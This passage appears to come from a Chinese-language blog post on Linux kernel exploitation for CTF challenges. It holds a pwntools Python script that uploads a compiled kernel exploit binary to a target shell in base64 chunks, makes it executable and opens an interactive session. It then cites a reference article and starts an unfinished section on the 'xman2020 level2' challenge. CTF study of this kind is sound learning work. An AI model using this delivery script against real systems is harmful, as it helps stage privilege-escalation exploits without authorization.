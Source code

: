 ```python
def exec_cmd(cmd):
	print(cmd)
	r.sendline(cmd)
	r.recvuntil("$")

def upload():
	with open(".kernel_exp", "rb") as f:
		data = f.read()
	encoded = base64.b64encode(data).decode()
	
	r.recvuntil("$")
	for i in range(0, len(encoded), 300):
		exec_cmd(f'''echo "{ encoded[i: i + 300] }" | base64 -d >> /exp''')
	
	exec_cmd("chmod +x /exp")

def exploit(r):
	upload()
	r.interactive()

compile()

r = None
if False:
	session = ssh(USER, HOST, PORT, PW)
	r = session.run("/bin/sh")
else:
	r = process("./start.sh")
    #debug()
	
exploit(r)
```

本篇文章参考了:  
[Linux Kernel Pwn 初探 - T3LS](https://xz.aliyun.com/t/7625)

### [](#header-3)题目：xman2020 level2

(未完)